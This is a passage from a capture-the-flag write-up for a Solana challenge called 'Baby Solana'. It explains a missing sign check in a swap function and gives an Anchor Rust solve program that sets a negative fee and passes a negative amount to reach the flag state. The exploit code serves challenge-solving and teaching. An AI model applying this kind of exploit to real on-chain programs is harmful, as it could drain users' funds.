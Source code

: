 ```rust
        line.clear();
    }

    Ok(())
}
```

### Baby Solana:

After analyzing the server code, you can see that we need to make `state.x` and `state.y` to be both `0` after the server finishes running our transaction. Those values are initialized to `1000000` and `1000001` at program start. The only function we are given that can directly modify those values is the `swap` function.

The `swap` function does not actually swap any values, it simply increases `state.x` and `state.y` according to the `amt` argument that is passed-in by the user, and then increases by `state.fee * state.x / 100` and `state.fee * state.y / 100` respectively.

Since there is no check on the sign of the `amt` parameter, there exists a logic bug that allows an attacker to supply a negative `amt` and make `state.x` completely `0`. Then, we can set the `state.fee` to be `-100`. This will make `state.y` from `1` to `0`

exp:

`framework-solve/solve/programs/solve/src/lib.rs`:

```rust
use anchor_lang::prelude::*;

use anchor_spl::token::Token;
declare_id!("osecio1111111111111111111111111111111111111");

#[program]
pub mod solve {
    use super::*;

    pub fn get_flag(ctx: Context<GetFlag>) -> Result<()> {

        let auth_fee_accounts = chall::cpi::accounts::AuthFee{
            state: ctx.accounts.state.to_account_info(),
            payer: ctx.accounts.payer.to_account_info(),
            system_program: ctx.accounts.system_program.to_account_info(),
            rent: ctx.accounts.rent.to_account_info(),
        };
        let cpi_set_fee = CpiContext::new(ctx.accounts.chall.to_account_info(), auth_fee_accounts);
        chall::cpi::set_fee(cpi_set_fee, -100)?;

        // swap
        let swap_accounts = chall::cpi::accounts::Swap{
            state: ctx.accounts.state.to_account_info(),
            payer: ctx.accounts.payer.to_account_info(),
            system_program: ctx.accounts.system_program.to_account_info(),
            rent: ctx.accounts.rent.to_account_info(),
        };
        let cpi_swap = CpiContext::new(ctx.accounts.chall.to_account_info(), swap_accounts);
        chall::cpi::swap(cpi_swap, -1000000)?;

        Ok(())
    }
}
#[derive(Accounts)]
pub struct GetFlag<'info> {
    #[account(mut)]
    pub state: AccountInfo<'info>,
    #[account(mut)]
    pub payer: Signer<'info>,
```